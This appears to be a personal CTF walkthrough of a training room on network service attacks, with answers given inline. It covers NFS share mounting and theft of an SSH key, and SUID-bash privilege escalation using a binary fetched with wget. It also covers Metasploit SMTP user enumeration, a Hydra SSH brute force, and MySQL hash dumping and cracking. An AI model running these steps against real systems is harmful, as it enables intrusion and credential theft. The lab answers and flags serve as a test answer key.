

Network Services 2. This room is a sequel to the first network services room. Similarly, it will explore a few more common Network Service vulnerabilities and misconfigurations that you’re likely to find in CTFs, and some penetration test scenarios.

Task 2
NFS stands for “Network File System” and allows a system to share directories and files with others over a network. With NFS, users and programs can access files on remote systems almost as if they were local files. NFS is a distributed file system protocol and is not encrypted, no user authentication by default.
- NFS mounts all, or a portion of a file system on a server. The portion of the file system that is mounted can be accessed by clients with whatever privileges are assigned to each file.
How it works:
- client will request to mount a directory from a remote host on a local directory just the same way it can mount a physical device
- The mount service will then act to connect to the relevant mount daemon using RPC.
- The server checks if the user has permission to mount whatever directory has been requested
- It will then return a file handle which uniquely identifies each file and directory that is on the server.
If someone wants to access a file using NFS, an RPC call is placed to NFSD (the NFS daemon) on the server. This call takes parameters such as:
- file handle
- name of file to be accessed
- user ID
- user’s group ID
These parameters are used in determining access rights to the specified file. This is what controls user permissions (read and write of files).
Using the NFS protocol, you can transfer files between computers running Windows and other non-Windows operating systems, such as Linux, MacOS or UNIX.
- A computer running Windows Server can act as an NFS file server for other non-Windows client computers.
- NFS allows a Windows-based computer running Windows Server to access files stored on a non-Windows NFS server.
Question: What does NFS stand for?
- network file system
Question: What process allows an NFS client to interact with a remote directory as though it was a physical device?
- hint: What does your Operating System do to access a physical drive?
- mounting
Question: What does NFS use to represent files and directories on the server?
- file handle
Question: What protocol does NFS use to communicate between the server and client?
- RPC
Question: What two pieces of user data does the NFS server take as parameters for controlling user permissions? Format: parameter 1 / parameter 2
- user id / group id
Question: Can a Windows NFS server share files with a Linux client? (Y/N)
- yes
Question: Can a Linux NFS server share files with a MacOS client? (Y/N)
- yes
Question: What is the latest version of NFS? [released in 2016, but is still up to date as of 2020] This will require external research.
- 4.2
Task 3
Enumeration is step 1 in the process, and for this NFS we need to have NFS Share tool (nfs-common)
- nsf-common has programs
lockd,statd,showmount,nsfstat,gssd,idmapdandmount.nfs - important ones are ‘showmount’ and ‘mount.nfs’
- to install
sudo apt install nfs-commonbut is installed on Kali and is in AttackBox
As usual nmap is part of enumeration.
Mounting NFS shares:
- client system needs a directory where all the content shared by the host server in the export folder can be accessed
- create this folder anywhere on your system
- now use “mount” command to connect to NFS share to the moint point on your machine
sudo mount -t nfs IP:share /tmp/mount/ -nolock
| tag | function |
|---|---|
| sudo | run as root |
| mount | execute mount |
| -t | type of device |
| IP:share | IP of NFS server: name of share to mount |
| -nolock | not to use NLM locking |
Now time for nmap scanning.
Question: Conduct a thorough port scan scan of your choosing, how many ports are open?
- 7
Question: Which port contains the service we’re looking to enumerate?
- 2049
Question: Now, use /usr/sbin/showmount -e [IP] to list the NFS shares, what is the name of the visible share?
- terminal:
/usr/sbin/showmount -e IP - /home
Now we mount the share to our local machine.
mkdir /tmp/mountto create a mount directory- it is temporary so deleted on restart
- use mount command,
sudo mount -t nfs IP:share /tmp/mount/ -nolocktype as is - now
cd /tmp/mount/home/
Question: Change directory to where you mounted the share- what is the name of the folder inside?
- cappucino
Have a look inside this directory, look at the files. Looks like we’re inside a user’s home directory.
ls -la
Question: Which of these folders could contain keys that would give us remote access to the server?
cd .ssh
Question: Which of these keys is most useful to us?
- hint: What is the default name of an SSH identity file?
- id_rsa
Copy this file to a different location your local machine, and change the permissions to “600” using “chmod 600 [file]”.
cp id_rsa ~/Desktop> new tabcd ~/Desktop>chmod 600 id_rsa- in the
.ssh/>cat authorized_keys> “cappucino@polonfs”
Question: Can we log into the machine using ssh -i
ssh -i id_rsa IP
Task 4
if you have a low privilege shell on any machine and you found that a machine has an NFS share you might be able to use that to escalate privileges, depending on how it is configured.
NFS has Root Squashing:
- root squashing (when enabled) prevents anyone connecting to the NFS share from having root access to the NFS volume
- Remote root users are assigned a user “nfsnobody” when connected, which has the least local privileges.
- If turned off, it allows SUID bit files to be created, allowing remote user root access
- SUID files can be run with permissions of owner/group as super-user
Method:
- upload files to NFS share, control the permissions of files
- file permissions to be bash executable
- log into SSH
- execute the bash script and get root shell
The executable bash script (download file):
wget https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash- in AttackBox paste the link and hit enter
Process:
- NFS access
- gain low privilege shell
- upload bash executable to NFS share
- set SUID permission through NFS (misconfigured root squash)
- login via SSH
- execute SUID bit bash executable
cp ~/Desktop/bash /tmp/mount/home/, I downloaded bash file onto desktop and moved to homesudo chown root bashsudo chmod +x bashshows -rwxr-xr-x
Question: Now, we’re going to add the SUID bit permission to the bash executable we just copied to the share using “sudo chmod +[permission] bash”. What letter do we use to set the SUID bit set using chmod?
- s
sudo chmod +s bashshows -rwsr-sr-x
The bash file should be in path /tmp/mount/home/cappucino/
cd /root/>ls- root.txt >
cat root.txtand get the flag
Task 5
SMTP stands for “Simple Mail Transfer Protocol”, it is utilised to handle the sending of emails. In order to support email services, a protocol pair is required, comprising of SMTP and POP/IMAP (send outgoing mail and retrieve incoming mail).

SMTP functions:
- verifies who is sending emails through SMTP server
- send outgoing mail
- if mail can’t be delivered, then return message to sender
POP, or “Post Office Protocol” and IMAP, “Internet Message Access Protocol” are both email protocols who are responsible for the transfer of email between a client and a mail server.
- POP’s more simplistic approach of downloading the inbox from the mail server, to the client.
- IMAP will synchronise the current inbox, with new mail on the server, downloading anything new.
This means that changes to the inbox made on one computer, over IMAP, will persist if you then synchronise the inbox from another computer.
How SMTP works:
- user will supply the email (a letter) and a service (the postal delivery service)
- role of the SMTP server in this service, is to act as the sorting office
- the email (letter) is picked up and sent to this server, which then directs it to the recipient
- the mail user agent (your email client or external program) connects to SMTP server, starts a SMTP handshake, runs on port 25, is validated and SMTP session starts
- sending mail process, client submits [the sender & recipient’s email address] + [email body] + [attachments] to server
- SMTP server checks if domain name of recipient & sender is the same
- SMTP server of sender will make a connection to recipient’s SMTP server before sending email. If not accessible then the email is put into a queue
- recipient’s SMTP server will verify the incoming email, checking if domain & user name have been recognized, then server will forward the email to POP/IMAP
- recipient will get email in inbox
Question: What does SMTP stand for?
- Simple Mail Transfer Protocol
Question: What does SMTP handle the sending of? (answer in plural)
- emails
Questions: What is the first step in the SMTP process?
- SMTP handshake
Question: What is the default SMTP port?
- 25
Question: Where does the SMTP server send the email if the recipient’s server is not available?
- SMTP queue
Question: On what server does the Email ultimately end up on?
- POP/IMAP
Question: Can a Linux machine run an SMTP server? (Y/N)
- y
Question: Can a Windows machine run an SMTP server? (Y/N)
- y
Task 6
Enumerating poorly configured mail servers can provide a starting place into a network. Need to fingerprint the server to make our targeting as precise as possible.
- using ‘smtp_version’ module of a Metasploit, which will scan a range of IP addresses and determine the version of any mail server
- using module ‘smtp_enum’ that will enumerate users, uses a host or range to scan plus a wordlist that has usernames
- Metasploit is installed in Kali and Parrot OS
SMTP service has 2 internal commands that allow the enumeration of users:
- VRFY which confirms the names of valid users
- EXPNwhich reveals the address of user’s aliases & lists of email commands
Enumeration run nmap scan.
Question: First, lets run a port scan against the target machine, same as last time. What port is SMTP running on?
- 25
Question: Start Metasploit. What command do we use to do this?
- msfconsole
Question: Let’s search for the module “smtp_version”, what’s it’s full module name?
- auxiliary/scanner/smtp/smtp_version
Question: Great, now- select the module and list the options. How do we do this?
use 0>options
Question: Have a look through the options, does everything seem correct? What is the option we need to set?
- RHOSTS
set RHOSTS IP
Question: Set that to the correct value for your target machine. Then run the exploit. What’s the system mail name?
- after setting the RHOSTS IP address > type
run polosmtp.home
Question: What Mail Transfer Agent (MTA) is running the SMTP server? This will require some external research.
- hint: If I want to send a letter to my friend I have to
****it. - Postfix
Question: We’ve now got a good amount of information on the target system to move onto the next stage. Let’s search for the module “smtp_enum”, what’s it’s full module name?
- auxiliary/scanner/smtp/smtp_enum
We’re going to be using the “top-usernames-shortlist.txt” wordlist from the Usernames subsection of seclists (/usr/share/wordlists/SecLists/Usernames if you have it installed).
Seclists is an amazing collection of wordlists. If you’re running Kali or Parrot you can install seclists with: “sudo apt install seclists”.
Question: What option do we need to set to the wordlist’s path?
- user_file
- set USER_FILE /usr/share/seclists/Usernames/top-usernames-shortlist.txt
- [AttackBox] inside the msfconsole: set USER_FILE ~/Tools/wordlists/SecLists/Usernames/top-usernames-shortlist.txt
Question: Once we’ve set this option, what is the other essential paramater we need to set?
- RHOSTS
- set THREADS 16
Now, run the exploit, this may take a few minutes, so grab a cup of tea, coffee, water.
Question: Okay! Now that’s finished, what username is returned?
- [did not get scan to work, answer is from walkthrough] administrator
Task 7
The information we have: user account, type of SMTP, the OS, port 25 is open same with a SSH port.
Bruteforce the password using Hydra.
- syntax:
hydra -t 16 -l USERNAME -P /usr/share/wordlists/rockyou.txt -vV target_IP ssh - polosmtp.home > username: administrator
- use syntax above and put in administrator instead of USERNAME and run
Question: What is the password of the user we found during our enumeration stage?
- alejandro
Question: Great! Now, let’s SSH into the server as the user, what is contents of smtp.txt
ssh administrator@IP_address> alejandrols>cat smtp.txtand get the flag
Task 8
MySQL is a relational database management system (RDBMS) based on Structured Query Language (SQL).
RDBMS - A software or service used to create and manage databases based on a relational model. The word “relational” just means that the data stored in the dataset is organised as tables. Every table relates in some way to each other’s “primary key” or other “key” factors.
The server handles all database instructions like creating, editing, and accessing data. It takes and manages these requests and communicates using the MySQL protocol. This whole process can be broken down into these stages:
- MySQL creates a database for storing and manipulating data, defining the relationship of each table.
- Clients make requests by making specific statements in SQL.
- The server will respond to the client with whatever information has been requested.
MySQL runs all operating systems.
Question: What type of software is MySQL?
- relational database management system
Question: What language is MySQL based on?
- sql
Question: What communication model does MySQL use?
- client-server
Question: What is a common application of MySQL?
- back end database
Question: What major social network uses MySQL as their back-end database? This will require further research.
Task 9
MySQL is likely not going to be the first point of call when getting initial information about the server. You can, as we have in previous tasks, attempt to brute-force default account passwords if you really don’t have any other information; however, in most CTF scenarios, this is unlikely to be the avenue you’re meant to pursue.
This task assumes you have found the credentials “root:password” when enumerating the subdomain web server, trying to login SSH and try against MySQL.
- install MySQL if not already installed:
sudo apt install default-mysql-client - using Metasploit for this
Question: As always, let’s start out with a port scan, so we know what port the service we’re trying to attack is running on. What port is MySQL using?
- 3306
Good, now we have to set of credentials. Let’s double check that by manually connecting to the MySQL server. We can do this using the command “mysql -h [IP] -u [username] -p”.
Okay, we know that our login credentials work. Lets quit out of this session with “exit” and launch up Metasploit.
- Metasploit: ‘mysql_sql’ module >
info 0 - password/rhosts/username
Question: Run the exploit. By default it will test with the “select version()” command, what result does this give you?
- set PASSWORD password > set RHOSTS IP > set USERNAME root
run5.7.29-0ubuntu0.18.04.1
Question: Change the “sql” option to “show databases”. how many databases are returned?
- set SQL show databases > run
- 4
Task 10
The information we know: MySQL server credntials root:password, version of MySQL and that there are 4 databases.
- syntax is
create schema(not create database)
Question: Let’s search for and select the “mysql_schemadump” module. What’s the module’s full name?
- msfconsole > search mysql_schemadump
auxiliary/scanner/mysql/mysql_schemadumpx$waits_global_by_latency
Question:Awesome, you have now dumped the tables, and column names of the whole database. But we can do one better… search for and select the “mysql_hashdump” module. What’s the module’s full name?
auxiliary/scanner/mysql/mysql_hashdump
Question: Again, I’ll let you take it from here. Set the relevant options, run the exploit. What non-default user stands out to you?
- use 0 > options
- set RHOSTS IP > set USERNAME root > set PASSWORD password > run
- carl
Question: _Another user! And we have their password hash. This could be very interesting. Copy the hash string in full, like: bob:*HASH to a text file on your local machine called “hash.txt”._
nano hash.txt- copy & paste
carl:*EA031893AA21444B170FC2162A56978B8CEECE18
Question: Now, we need to crack the password! Let’s try John the Ripper against it using: “john hash.txt” what is the password of the user we found?
john hash.txt- doggie
Question: Awesome. Password reuse is not only extremely dangerous, but extremely common. What are the chances that this user has reused their password for a different service?
- carl:doggie
- try SSH
- ls > cat MySQL.txt and get the flag